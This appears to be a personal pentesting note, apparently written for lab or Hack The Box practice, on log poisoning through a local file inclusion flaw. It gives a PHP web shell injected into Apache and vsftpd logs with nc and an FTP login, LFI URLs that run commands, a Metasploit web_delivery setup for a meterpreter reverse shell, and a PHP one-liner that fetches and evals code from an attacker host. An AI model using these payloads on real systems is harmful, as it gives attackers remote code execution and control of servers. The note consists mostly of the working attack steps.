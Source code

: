 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[log poisoning]]  
___

## Description:  

### Web sever log poisoning

Can you access `C:\xampp\apache\logs\access.log` or any other logs files? You can try to Poisoning log files. For example:
Connect to the web server with ssh and send it a php script:
```
kali@kali:~$ nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
HTTP/1.1 400 Bad Request
```

Next, we’ll use the LFI vulnerability to include the Apache access.log file that contains our PHP 
payload. We know the application is using an include statement so the contents of the included file 
will be executed as PHP code.
```
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```


### FTP Log Poisoning
Server must be running ftp and have a LFI vuln.
 
Connect to the ftp server and run in the name field:
`'<?php system($_GET['c']); ?>'`

Now use your LFI to access the logs of the FTP server to run commands:

add a &c=command to the end of your URL to run commands:
`http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log&c=ifconfig`

### Metasploit shell
Use web delivery to get a shell

```
msfconsole

use exploit/multi/handler

use exploit/multi/script/web_delivery

set target 1

set payload php/meterpreter/reverse_tcp

set uripath /

set srvhost 10.10.14.79

set lhost 10.10.14.79

run
```

Copy and paste the command in msfconsole in your web browser:
`php -d allow_url_fopen=true -r "eval(file_get_contents('http://10.10.14.79:8080/', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"`

`http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log&c=php%20-d%20allow_url_fopen=true%20-r%20%22eval(file_get_contents(%27http://10.10.14.79:8080/%27,%20false,%20stream_context_create([%27ssl%27=%3E[%27verify_peer%27=%3Efalse,%27verify_peer_name%27=%3Efalse]])));%22`

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (03:02 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
